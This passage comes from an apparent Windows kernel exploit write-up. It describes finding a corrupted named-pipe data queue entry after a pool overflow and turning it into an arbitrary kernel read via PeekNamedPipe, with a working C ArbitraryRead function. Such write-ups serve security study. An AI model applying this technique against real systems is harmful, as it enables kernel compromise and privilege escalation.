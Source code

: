 To achieve an arbitrary read primitive, the userland `NP_DATA_QUEUE_ENTRY` and `IRP` can setup as an unbuffered entry.
By reading (using `PeekNamedPipe` because we don’t want any objects to be freed) a `DataSize` greater than what’s in the overwritten chunk, the NPFS driver will follow the Flink to the userland `NP_DATA_QUEUE_ENTRY`, and notice it’s an unbuffered entry, and read from the `AssociatedIRP.SystemBuffer`, which is a value we control.

## Part 0x05 - Finding the “overwritten chunk”?

Assuming the pool overflow did successfully corrupt a `NP_DATA_QUEUE_ENTRY` as described, how do we find it? We created 10000 named pipes! Which one of them uses the overwritten `NP_DATA_QUEUE_ENTRY`?

The answer is [PeekNamedPipe](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-peeknamedpipe).
> Copies data from a named or anonymous pipe into a buffer without removing it from the pipe

We wrote 448 bytes to every named pipe to create their respective `NP_DATA_QUEUE_ENTRY` objects in the NonPaged pool. We set the `NP_DATA_QUEUE_ENTRY->DataSize` to 512 (read the first sentence of Part 0x04 if you forgot why) on the overwritten `NP_DATA_QUEUE_ENTRY`. If we try PeekNamedPipe with a size of 512 on all 10000 named pipes, only one will be successful. That allows us to identify the corrupted name pipe.

It's important to save the out-of-bounds (OOB) read data, because that is our "readable chunk". 

## Part 0x06 - Arbitrary Read

All we have to do is PeekNamedPipe with a size greater than 512, and the kernel will follow the Flink (which we control) on the corrupted `NP_DATA_QUEUE_ENTRY`. This will follow the Flink to the user-land `DATA_QUEUE_ENTRY` that we control and can modify. By setting `EntryType` to 1 (unbuffered), the kernel will read from the `Irp->AssociatedIrp.SystemBuffer`. We set the `SystemBuffer` to the address we want to read. We also set `DataSize` to the number of bytes we want to read.

```c
void ArbitraryRead(NP_DATA_QUEUE_ENTRY* usermodeDqe, PVOID addr, u32 size, PVOID result) {

    const u32 bufSize = NAME_PIPE_BUF_SIZE + sizeof(POOL_HEADER) + sizeof(NP_DATA_QUEUE_ENTRY) + size;
    char* tempBuf = VirtualAlloc(NULL, bufSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

    usermodeDqe->Irp->AssociatedIrp.SystemBuffer = addr;

    usermodeDqe->SecurityContext = 0;
    usermodeDqe->EntryType = 1;
    usermodeDqe->QuotaInEntry = 0;
    usermodeDqe->DataSize = size;

    PeekNamedPipe(hVulnReadPipe, tempBuf, bufSize, NULL, NULL, NULL);

    memcpy(result, &tempBuf[NAME_PIPE_BUF_SIZE + sizeof(POOL_HEADER) + sizeof(NP_DATA_QUEUE_ENTRY)], size);

    VirtualFree(tempBuf, 0, MEM_RELEASE);
}
```
